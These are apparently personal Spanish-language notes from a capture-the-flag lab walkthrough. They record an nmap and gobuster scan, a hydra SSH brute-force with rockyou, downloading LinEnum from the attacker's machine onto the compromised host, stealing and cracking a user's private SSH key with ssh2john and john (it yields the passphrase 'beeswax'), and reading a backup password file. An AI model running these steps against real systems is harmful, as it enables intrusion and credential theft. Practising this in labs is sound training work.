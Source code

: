 - nmap -sC -sV -T5 10.10.190.162//Para checar servicios abiertos
- gobuster dir -u 10.10.190.162 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 10.10.190.162//Para enumerar directorios
- dirb http://10.10.190.162//Lo mismo para checar directorios
- enum4linux -a 10.10.190.162
- find / -name rockyou.txt //para encontrar el wordlist de rockyou
- hydra -t 4 -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.190.162 //para hacer bruteforcing del usuario

--------------------------------------------------------------------- Esto no me funciono porque no tenia permisos de escritura en usuario jan
- git clone https://github.com/rebootuser/LinEnum.git //Bajar LinEnum
- python -m http.server (Desde mi maquina) 10.10.63.105
- curl http://10.10.63.105/LinEnum.sh -o /root/LinEnum/LinEnum.sh (desde maquina vulnerada) 
- //use tambien SCP y tampoco puse

-------------------------------------------------- kay tiene permiso para entrar a .ssh

-------

- cat id_rsa (llave privada) para ver el contenido de la llave privada en el usuario de kay
- touch id_rsa en mi maquina
- nano id_rsa en mi maquina y pego el contenido de lo que copie de llave privada de kay
- chmod 0400 id_rsa  pa darle permisos al user de leer a los demas menos yo en mi maquina
- ssh -i id_rsa kay@10.10.19.106 //para checar si asi puedo ingresar a kay desde mi maquina

--------------------------------------------- se tiene que crackear 
- cat id_rsa.pub (llave privada pa ver que hay)
- en vez de find / -name usar locate ssh2john.py
- cd /usr/share/john 
- sudo ./ssh2john.py /root/carpeta/ id_rsa > /root/carpeta2/hashNuevo.txt para que este como hash
- john hashNuevo.txt para detectar el tipo de hash
- john hashNuevo.txt -wordlist = /usr/share/wordlists/rockyou.txt
--------------------------------------------- john crash recovery file is locked
- //ir a opt/john y buscar el archivo de john rec y eliminarlo
- john hashNuevo.txt -wordlist = /usr/share/wordlists/rockyou.txt

--------------- nuevamente 
- ssh -i id_rsa kay@10.10.19.106
- //poner beeswax que fue lo que lo que crackeo john
---------------- abrir la contraseña
- cat pass.bak
